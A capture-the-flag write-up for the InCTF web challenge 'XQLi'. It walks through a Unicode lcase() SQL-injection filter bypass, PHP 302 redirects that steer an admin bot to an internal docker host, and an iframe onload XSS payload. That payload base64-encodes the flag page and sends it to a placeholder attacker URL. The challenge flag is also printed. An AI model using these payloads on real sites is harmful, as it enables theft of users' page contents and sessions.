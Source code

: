 
**tl;dr**

+ SQLi - `lcase('inKypinKy')id from dual`
+ Creating User - `header("location:http://web/user.php?session=1111-22222-1234&sub=submit");`
+ Retrieving Flag - `header("location:http://web/flag.php?session=<iframe id="a" src="http://web/flag.php?session=1111-22222-1234&sub=submit" onload=window.location="<URL>?"+btoa(document.getElementById('a').contentWindow.document.body.innerText)>&sub=submit")`

<!--more-->

**Challenge points:** 1000

**Number of Solves:** ?

**Source Code:** [XQLi]()

## Challenge Description

What is my perfect crime? I break into Tiffany's at midnight. Do I go for the vault? No, I go for the chandelier. It's priceless. As I'm taking it down, a woman catches me. She tells me to stop. It's her father's business. She's Tiffany. I say no. We make...... All that and he locked himself out the website that had a secret code to break into the place :/ . Help him find the code?


**Part - I:**

On looking into the source, one can find a text file, that'll reveal this is a sqli. The users are allowed to enter any query they want(there are some filters though) after select. `Select <your input>`.

The goal is to select "inkypinky" as id.

The intended method is to use lcase function along with unicode characters that change to ascii on to bypass the filters.

The unicode character [K](https://www.compart.com/en/unicode/U+212A) can be used here.

intended solution: `lcase('inKypinKy')id from dual`

**Part - II:**

After completing the SQLi phase, you'll be redirected to ./reception.php. On checking the source code of this, you'll be able to find a hidden text file that has the following.

```
version: '2'

services:
   web:
      # build the web server here

   node:
      # implement an A(dm)I(n) bot that would send only funny links to $(YOU_KNOW_WHO)

   db:
      #  database to be added here
```

This is a crude docker-compose.yml file. The web-server is running under the name `web`. One technique to access the internal ip of docker is use the service name. i.e, http://web will correspond to the internal ip of the web service. Since it is a docker and no specific networks have been provided http://127.0.0.1 and http://localhost won't work. 

Other than this, there are three links: 
 - ./url.php - urls for admin bot to visit
 - ./user.php - tokens/session ids to be created by admin bot
 - ./flag.php - admin bot submits token and gets flag

 To get the flag, we need to create a token. The timeout for the bot is also set to be very less(1 second). This rules out many options(the page might take some time to load if one intends to use js for CSRF) normally uses in a CTF. 

 But when we use a 302 status code, the page is redirected to its target without the page from your server fully rendering. The intended way is to access the web server using http://web by redirecting from your server.

```php
<?php
header("location:http://web/user.php?session=1111-22222-1234&sub=submit");
```

This would redirect to the bot to create a new id. 


**Part - III:**

The next part would be to exfiltrate the flag from flag.php. Even here the same method(http://web) can be used to access the server as admin. 

The flag can be exfiltrated using the XSS vulnerability present in ./flag.php. The word `script` is blocked. But any other element ought to work. 

The using `frame` and `onload` attribute, the flag can be obtained. There surely are other methods though.

`<iframe id="a" src="http://web/flag.php?session=1111-22222-1234&sub=submit" onload=window.location="<URL>?"+btoa(document.getElementById('a').contentWindow.document.body.innerText)>`

would load the flag on the page and exfiltrate to your server. Being a internal docker connection, this would load much faster(making the bot's 1 second timeout useless).

Putting it together with the redirect on your server:

```php
<?php
header("location:http://web/flag.php?session=%3Ciframe+id%3D%22a%22+src%3D%22http%3A%2F%2Fweb%2Fflag.php%3Fsession%3D1111-22222-1234%26sub%3Dsubmit%22+onload%3Dwindow.location%3D%22%3CURL%3E%3F%22%2Bbtoa%28document.getElementById%28%27a%27%29.contentWindow.document.body.innerText%29%3E%26sub%3Dsubmit");
```

## Flag:

inctf{p3op13_persons_c7f_pe0p13_9986000}
